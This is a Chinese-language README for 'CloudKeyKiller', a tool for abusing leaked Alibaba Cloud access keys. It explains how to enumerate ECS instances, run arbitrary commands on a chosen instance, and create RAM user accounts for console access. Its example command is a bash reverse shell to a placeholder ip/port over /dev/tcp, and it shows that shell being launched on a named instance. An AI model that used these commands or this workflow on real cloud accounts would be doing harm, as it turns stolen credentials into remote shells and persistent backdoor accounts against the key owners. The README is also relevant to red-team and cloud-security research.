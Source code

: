 # CloudKeyKiller

# 前言

先说一下这个工具解决了什么，经常能遇到很多AK泄露，在前端JS中，APP中，小程序源码中碰到，有时候单独拿到AK去尝试权限是比较麻烦的，我也想是否有必要写一款这种工具，答案是：可以的

不过写的中间其实不难发现，这就是一个体力活，如果可以，其实完全可以把API都调一遍，是吧，就知道这个AK的权限有多大了

不过我还是想，能否通过API来判断该AK的权限有多少，通过这些有的权限进行利用

再一个难点其实就是环境差别太大了，首先不知道拿到AK的时候我们是黑盒的情况下，不知道权限有多大，再一个就是，这种类型的工具，它的兼容性和适配性必须要好，因为不同的KEY会有不同的结果，所以我希望使用这款工具中遇到的问题，尽管提issue，因为这能帮助这款工具更快的迭代和发现问题

况且这工具开发时间很短，除了熟悉API的时间，写代码的时间可能也就1个小时，甚至更少，况且这种工具属于重复造轮子，调API就可以了

## 初始配置

将自己的对应云厂商AK写入/config/conf.py中即可

![image-20220414185136736](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414185136736.png)

## ECS

### 获取所有ECS

```bash
python3 -aliyun ecs getecs
```

![image-20220414185023728](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414185023728.png)

### 在指定ECS中执行命令

```bash
python3 main.py -aliyun ecs exec instanceid command RegionId
```

- instanceid

  - ECS中的InstanceID

- command

  - 你要执行的命令

    ```bash
    bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'
    ```

- RegionID

  - 地区ID

```bash
python3 main.py -aliyun ecs exec i-2556rj "bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'" cn-beijing
```

![image-20220414190034115](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414190034115.png)

## RAM

为什么要创建RAM？为什么常见RAM之后，就可以通过账号登录到阿里云控制台

### 创建RAM用户

```bash
python3 main.py -aliyun ram createram 账号 密码
```

![image-20220414215019769](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414215019769.png)

# 推荐一个云安全wiki

- https://github.com/teamssix/twiki